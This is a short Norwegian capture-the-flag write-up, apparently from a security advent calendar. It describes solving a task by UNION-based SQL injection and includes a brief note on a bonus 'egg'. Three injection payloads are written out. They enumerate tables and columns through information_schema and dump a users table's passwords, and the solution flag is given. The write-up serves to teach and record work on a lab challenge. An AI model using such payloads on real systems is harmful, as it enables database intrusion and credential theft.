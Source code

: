 # Luke 10
![](mail.jpg)

Ny runde med SQL! De er fortsatt sårbare for samme SQL injection som sist, så jeg dumpet tabellene:

    kvakk' union select null,table_name,null,null,null,null from information_schema.tables--

Fant en tabell som het "brukere". Sjekket hvordan den så ut:

    kvakk' union select null,column_name,null,null,null,null from information_schema.columns where table_name='brukere'--

![](tabellen.jpg)

Dumpet brukerdatabasen:

    kvakk' union select id,passord,null,null,navn,null from v2.brukere--

Men her gravde jeg meg ned i et kaninhull. Passordene var formatert som **PST{hex-streng}** Trodde de hex-strengene var noe jeg skulle dra menig ut av, men når jeg så hvor kjapt folk begynte å poste flagg så tok jeg tre steg tilbake. Siden det var Eline som var ansvalig for løsningen, så prøvde jeg å poste hennes passord-entry og det var flagget.

![](solved.jpg)

    PST{c3ce11494e56a8897b6f80d1ca3dbe}	


# Egg 

Ble litt stressa av alle som plutselig postet egg. Trodde lenge det hadde noe med tap-koden i forrige oppgave å gjøre - at skulle brukes på noe fra tidligere oppgaver. Men jeg dykket som vanlig langt ned i kaninhull uten å komme noen vei.  Det var langt lettere enn som så.

![](egg1.jpg)

Var så opptatt av SQL-injection på den siden at jeg aldri brukte network-tab :)
